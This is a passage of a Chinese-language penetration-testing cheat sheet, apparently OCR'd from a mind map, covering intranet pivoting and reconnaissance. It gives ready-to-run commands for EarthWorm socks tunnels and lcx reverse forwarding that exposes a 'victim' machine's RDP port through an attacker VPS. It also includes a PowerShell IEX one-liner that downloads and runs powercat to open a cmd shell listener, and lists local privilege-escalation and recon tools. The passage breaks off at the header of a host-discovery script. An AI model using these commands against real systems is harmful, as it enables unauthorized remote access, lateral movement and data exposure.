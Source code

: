 		- B机器执行

			- ./ew -s ssocksd -l 9999

		- A机器执行

			- ./ew -s lcx_slave -d vpsip -e 8888 -f BIP -g 9999

		- 利用proxychains等类似工具可通过连接你自己的vps的1080 端口的socks5，即可代理B服务器的网络

- lcx

	- 反向转发

		- 外网VPS机器监听

			- lcx.exe -listen 1111 2222

		- 受害者机器执行

			- lcx.exe -slave VPSip 1111 127.0.0.1 3389

		- 连接外网VPS机器的2222端口即是连接受害者机器的3389

	- 正向转发

		- A机器执行

			- lcx.exe -tran 1111 2.2.2.2 8080

		- 访问A机器的1111端口即是访问2.2.2.2的8080端口

- powercat

	- powershell "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -l -p 8000 -e cmd"

- mssql

	- https://github.com/blackarrowsec/mssqlproxy

### 信息收集

- LinEnum工具:底层系统的所有信息
- linux-exploit-suggester工具:分析主机系统识别缺失的补丁和漏洞
- rkhunter:
Unix-based tool that scans for rootkits, backdoors and possible local exploits

	- https://github.com/installation/rkhunter

- 存活自动化探测

	- 10.x.x.x ，172.16.x.x -
	- 172.31.x.x ， 192.168.x.x
	- 扫描脚本 - 完全依靠系统内置工具

		- #!/bin/bash

# 内网存活段自动探测脚本 [Linux] 
# By Klion
# 2020.7.1
